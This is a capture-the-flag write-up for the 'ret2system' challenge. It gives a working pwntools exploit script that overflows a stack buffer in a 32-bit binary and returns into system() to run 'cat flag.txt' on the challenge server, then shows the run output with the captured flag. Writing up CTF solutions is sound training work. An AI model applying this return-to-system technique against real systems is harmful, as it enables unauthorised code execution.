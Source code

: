 # Access Denied: Pwn/ret2system


## Question 

Oh... Oh. I have system here.

server: nc 34.134.85.196 9337

[ret2system](ret2system)

## Solution

The program suffers a ``buffer overflow`` that allows us to overwrite the return address with ``system``. We'll use the previous input to write ``cat flag.txt`` to the address ``0x804c060``

```python
from pwn import *

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
break *0x804929d
break *0x804929e
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.134.85.196',9337)
    else:
        return process(e.path)


p = start()
p.recvuntil(b'You are allowed to store some value')
p.sendline(b'cat flag.txt')
p.recvuntil(b'Enter the buffer now')

system = e.plt["system"]
usefulString = 0x804c060

payload = flat(
    b"A" * 44,
    system, # call system("/bin/cat flag.txt")
    b"B" * 4, # return address for system
    usefulString, # arg for system
)

p.sendline(payload)

p.interactive()
```

Running our script yields the flag 

```
$ python3 pwn-ret2sys.py BIN=./ret2system REMOTE
[*] '/root/workspace/access_denied/ret2system/ret2system'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Loading gadgets for '/root/workspace/access_denied/ret2system/ret2system'
[+] Opening connection to 34.134.85.196 on port 9337: Done
[*] Switching to interactive mode

accessdenied{n3xt_1_w1ll_n0t_1nclud3_system_func710n_1t53lf_e8dd6fc7}
```
